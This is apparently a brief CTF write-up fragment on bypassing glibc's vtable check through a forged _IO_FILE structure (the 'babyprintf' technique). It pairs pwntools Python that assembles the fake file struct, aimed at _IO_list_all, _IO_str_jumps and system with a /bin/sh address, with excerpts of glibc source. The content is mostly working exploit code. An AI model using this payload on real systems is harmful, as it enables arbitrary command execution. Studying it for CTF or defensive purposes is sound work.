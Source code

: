 ## bypass vtable check
babyprintf shows a way to bypass vtable check.
Another way can be seen [here](http://blog.rh0gue.com/2017-12-31-34c3ctf-300/)

```python
fake_file = p64(0) + p64(0x61) + p64(0xdeadbeef) + p64(io_list_all-0x10)
fake_file += p64(0xffffffffffffff) + p64(0)*3 + p64((binsh_addr-100)/2)
```
```c
_IO_size_t pos;
pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
    {
      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
        return EOF;
        ......
```
```python
fake_file = fake_file.ljust(0xa0, "\x00")
fake_file += p64(libc_addr+8) #_IO_wide_data
```
satisfied the second condition:
```c
 if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
#endif
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;
```
```python
fake_file = fake_file.ljust(0xc0, '\x00')
fake_file += p64(1) #_mode
fake_file = fake_file.ljust(0xd8, '\x00')
fake_file += p64(io_str_jumps)
fake_file += p64(system_addr)
payload += fake_file
```